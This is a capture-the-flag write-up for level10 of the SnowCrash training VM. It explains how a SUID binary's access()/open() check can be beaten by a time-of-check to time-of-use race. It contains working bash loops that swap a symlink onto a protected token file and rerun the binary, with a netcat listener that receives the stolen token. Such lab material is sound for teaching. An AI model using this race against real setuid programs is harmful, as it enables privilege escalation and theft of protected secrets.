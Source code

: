 ## level10
These are the files we got this time

```bash
-rwsr-sr-x+ 1 flag10 level10 10817 Mar  5  2016 level10
-rw-------  1 flag10 flag10     26 Mar  5  2016 token
```

The binary asks for a file to send to a host.

If I create a file I have access to and `ltrace` what the binary does

 

```bash
level10@SnowCrash:~$ echo "hello world" > /tmp/myfile
level10@SnowCrash:~$ ltrace ./level10 /tmp/myfile 192.168.69.1
__libc_start_main(0x80486d4, 3, 0xbffff794, 0x8048970, 0x80489e0 <unfinished ...>
access("/tmp/myfile", 4)                                                                                                      = 0
printf("Connecting to %s:6969 .. ", "192.168.69.1")                                                                           = 35
fflush(0xb7fd1a20Connecting to 192.168.69.1:6969 .. )                                                                                                            = 0
socket(2, 1, 0)                                                                                                               = 3
inet_addr("192.168.69.1")                                                                                                     = 0x0145a8c0
htons(6969, 1, 0, 0, 0)                                                                                                       = 14619
connect(3, 0xbffff6dc, 16, 0, 0)                                                                                              = -1
printf("Unable to connect to host %s\n", "192.168.69.1"Unable to connect to host 192.168.69.1
)                                                                      = 39
exit(1 <unfinished ...>
+++ exited (status 1) +++
```

I see that it tries to connect to the port 6969 of the host I give it. So if I’d put my host in listening mode on that port I should be able to receive.

```bash
# On host I get the IP with ifconfig then
nc -l 6969
# ... and it hangs listening

# On guest
level10@SnowCrash:~$ ./level10 /tmp/myfile 192.168.69.1
Connecting to 192.168.69.1:6969 .. Connected!
Sending file .. wrote file!

# On host
.*( )*.
hello world
```

Since the SUID bit in the permissions is on I’d wrongly expect `level10` to run ad `flag10` and thus be able to send the token, but I get

```bash
level10@SnowCrash:~$ ./level10 token 192.168.69.1
You don't have access to token
```

I need to somehow escalate privileges. I see from `ltrace` that is the failed `access` command to prevent me to get what I want.

<aside>
💡

From `man access`

NOTES
Warning:  Using access() to check if a user is authorized to, for example, open a file before actually doing so using open(2) creates a security hole, because the user might exploit the short
time interval between checking and opening the file to manipulate it.  For this reason, the use of this system call should be avoided.  (In the example just  described,  a  safer  alternative
would be to temporarily switch the process's effective user ID to the real ID and then call open(2).)

</aside>

Ok… so my file should change between the moment it’s checked and the moment it’s opened. But how???

[Time-of-check to time-of-use](https://en.wikipedia.org/wiki/Time-of-check_to_time-of-use)

I’ll write scripts that will do the things in an uncoordinated fashion so that statistically it will happen to hit the spot: the `access` check will be performed on a file and the `open` on another one.

```bash
#!/bin/bash
# Switching constantly a symlink between a file I own and the one I want 
while true
        do
                echo "MYFILE"
                ln -sf /tmp/myfile /tmp/token
                echo "TOKEN"
                ln -sf /home/user/level10/token /tmp/token
        done
```

```bash
#!/bin/bash
# Calling the program over and over
while true
        do
                /home/user/level10/level10 /tmp/token 192.168.69.1
        done
```

```bash
# On the host
nc -lk 6969 # -k keeps the connection open after transmission
```

Make them executable with `chmod +x` and spinning them all together: 

The token will be captured by the host and then we'll be able to log in as flag10 and get the flag.
